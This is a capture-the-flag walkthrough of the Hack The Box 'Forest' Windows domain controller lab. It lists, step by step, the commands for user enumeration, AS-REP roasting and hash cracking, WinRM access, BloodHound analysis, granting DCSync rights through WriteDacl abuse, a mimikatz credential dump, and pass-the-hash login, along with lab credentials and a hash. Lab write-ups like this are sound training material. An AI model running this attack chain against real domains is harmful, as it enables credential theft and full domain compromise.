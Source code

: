 ![Forest](https://labs.hackthebox.com/storage/avatars/7dedecb452597150647e73c2dd6c24c7.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [egre55](https://app.hackthebox.com/users/1190) & [mrb3n](https://app.hackthebox.com/users/2984)        | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Windows   |

---









- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.

```python
nmap -p- --open --min-rate 5000 -Pn -sS 10.10.10.161 -oG scan
/opt/extractports scan
nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49684,49706 -Pn -sCV 10.10.10.161 -oN ports
```

![image](https://github.com/user-attachments/assets/4bb0374a-1270-4b84-8573-f122b6044955)

-  I found the domain `htb.local` and `forest.htb.local`, I added it to the file in the `hosts` file

- I enumerate the system with enum4linux looking for system users. I get a list of users that I validate kerbrute to keep only the valid ones of the domain.

```python
enum4linux -a 10.10.10.161

/opt/kerbrute userenum  --dc 10.10.10.161 -d htb.local /home/rufo/users
```

![image](https://github.com/user-attachments/assets/5d7cda57-d629-419b-9a65-900f21b273df)

- When checking if any user has SPN set to request a TGS. 

```python
impacket-GetNPUsers htb.local/ -no-pass  -usersfile /home/rufo/valid_users 
```

- I find a user and manage to crack his hash and get the password in clear text.

```python
hashcat -m 18200 hash_svc-alfresco /usr/share/wordlists/rockyou.txt
```

![image](https://github.com/user-attachments/assets/40afa349-28ca-49a7-96b3-80cfe3e70b15)

- With these credentials I get access to the system through winrm and read the first flag

```python
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```

![image](https://github.com/user-attachments/assets/8e491210-2f79-4dcd-9985-b4b17fe8b251)

- At this point I collect information from the system in order to use bloodhound and look for possible routes to escalate my privileges.

```python
neo4j console
rdate -n 10.10.10.161
bloodhound-python -c all -u svc-alfresco -p s3rvice -ns 10.10.10.161 -d htb.local
bloodhound &>/dev/null &
```

![image](https://github.com/user-attachments/assets/c6b31df1-7a48-455a-b2d0-56660c7b7a90)

- I find a way in which I can give myself permissions to perform a DcSync attack. For it first I have to add me to the group “EXCHANGE WINDOWS PERMISSIONS” and at that point I can give me the permissions thanks to have WriteDacl on the domain.

- In order to exploit WriteDacl I make use of this [resource](https://www.thehacker.recipes/ad/movement/dacl/grant-rights)

```python
Add-ADGroupMember -Identity "EXCHANGE WINDOWS PERMISSIONS" -Members "svc-alfresco"
./bloodyAD.py --host "10.10.10.161" -d "htb.local" -u "svc-alfresco" -p "s3rvice" add dcsync "svc-alfresco"
.\mimikatz.exe privilege::debug "lsadump::dcsync /domain:htb.local /user:Administrator" exit
```

- Another way in which we could give DcSync permissions to the user would be to use powerview 
```python
$pass = ConvertTo-SecureString 's3rvice' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('htb.local\svc-alfresco', $pass)
Add-DomainObjectAcl -PrincipalIdentity svc-alfresco -Credential $cred -Rights DCSync
```

- When I get the Administrator user hash I manage to PtH and connect to the system to be able to read the second flag.

```python
evil-winrm -i 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```

![image](https://github.com/user-attachments/assets/fea25c2d-65e6-4fa9-9753-8467d7ea1063)
